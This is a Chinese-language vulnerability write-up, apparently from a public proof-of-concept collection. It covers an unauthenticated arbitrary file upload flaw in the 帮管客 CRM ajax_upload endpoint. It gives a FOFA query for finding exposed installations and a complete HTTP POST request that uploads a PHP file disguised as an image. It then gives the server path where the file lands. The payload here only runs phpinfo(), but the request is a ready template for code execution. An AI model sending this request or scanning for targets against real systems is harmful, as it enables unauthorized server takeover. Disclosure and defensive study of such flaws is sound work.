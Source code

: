# 帮管客CRM ajax_upload存在任意文件上传漏洞

# 一、漏洞简介
帮管客CRM是一款集客户档案、销售记录、业务往来等功能于一体的客户管理系统。帮管客CRM客户管理系统，客户管理，从未如此简单，一个平台满足企业全方位的销售跟进、智能化服务管理、高效的沟通协同、图表化.帮管客CRM ajax_upload_chat、ajax_upload等接口处存在文件上传漏洞，未经授权的攻击者可利用该漏洞获取服务器权限。

# 二、影响版本
+ 帮管客CRM

# 三、资产测绘
+ fofa`app="帮管客-CRM"`
+ 特征

![1706689730844-244c90a3-963a-47a3-ab90-419f4b5c87bc.png](./img/-q9KN7Vz-WxptVyQ/1706689730844-244c90a3-963a-47a3-ab90-419f4b5c87bc-081759.png)

# 四、漏洞复现
```plain
POST /index.php/upload/ajax_upload HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryv1WbOn5o

------WebKitFormBoundaryv1WbOn5o
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/jpeg

<?php
phpinfo();unlink(__FILE__);
------WebKitFormBoundaryv1WbOn5o--
```

![1706690699374-5bb1431f-958f-4d90-8541-9938e4c2a1d4.png](./img/-q9KN7Vz-WxptVyQ/1706690699374-5bb1431f-958f-4d90-8541-9938e4c2a1d4-672428.png)

上传文件位置

```plain
//data//uploads//202401//202401311642767GFUPHdsA.php
```

![1706690729835-bf862932-a71e-4dd3-b157-3cd0f62be938.png](./img/-q9KN7Vz-WxptVyQ/1706690729835-bf862932-a71e-4dd3-b157-3cd0f62be938-486853.png)



> 更新: 2024-02-29 23:55:41  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gx3kacfb8q9w0bdb>